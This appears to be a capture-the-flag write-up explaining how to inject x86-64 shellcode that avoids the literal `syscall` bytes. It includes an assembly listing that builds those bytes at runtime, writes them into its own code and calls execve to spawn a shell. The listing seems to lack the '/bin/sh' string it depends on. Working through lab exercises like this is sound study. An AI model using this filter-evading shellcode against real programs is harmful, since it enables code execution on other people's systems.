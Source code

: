 ## Challange
Inject a shellcode without using the istruction `syscall` in hex `\x0F\x05`.
## Solution
Since we cannot write directly in our shellcode `syscall`, we have to find a workaround. A possible way is to write in `ebx` `\x05\x0e` and then add to `ebx` `1`. We then can write the content of `ebx` (which is the hex for `syscall`) directly on the stack after we setup the registers. Since the istruction will occupy 8 bytes we creates an nop pad and using `mov [rip], ebx` we write `syscall` in the stack after the `mov` istruction.
```assembly
jmp binsh
back:
xor rax, rax
mov al, 0x3b
pop rdi
xor rsi, rsi
xor rdx,rdx
xor ebx, ebx
mov ebx, 0x50e
add ebx, 0x1
mov [rip], ebx
nop
nop
nop
nop
nop
nop
nop
nop

binsh:
call back
```




